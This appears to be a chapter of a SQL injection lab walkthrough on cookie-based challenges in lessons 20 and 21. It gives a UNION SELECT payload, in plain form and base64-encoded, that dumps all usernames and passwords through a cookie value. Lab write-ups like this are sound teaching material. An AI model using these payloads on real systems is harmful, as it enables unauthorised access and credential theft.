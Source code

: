 # Chapter-08

This section will deal with challenges based on cookies. 

## What are cookies?

> An HTTP cookie (also called web cookie, Internet cookie, browser cookie, or simply cookie) is a small piece of data sent from a website and stored on the user's computer by the user's web browser while the user is browsing.

Wikipedia has an awesome [post](https://en.wikipedia.org/wiki/HTTP_cookie) on cookies.

## Exploiting cookies : lesson-20 and lesson-21

Lesson-20 is a simple challenge where the cookie value changes depending on who logs in to the website. 

This makes the cookie vulnerable. 

The cookie can be exploited by setting the below mentioned value - 

```sql 
' union select group_concat(username), group_concat(password), 3 from users #
```

:warning: The query breaks when ```\``` is set as a value to the cookie. 

Lesson-21 is exactly similar to lesson-21 with the only difference being that in lesson-21, the cookie value is base64 encoded. Therefore, to exploit the cookie, the payload will also have to be base64 encoded which will look somewhat like this - 

```
JykgdW5pb24gc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSksIGdyb3VwX2NvbmNhdChwYXNzd29yZCksIDMgZnJvbSB1c2VycyAj
```

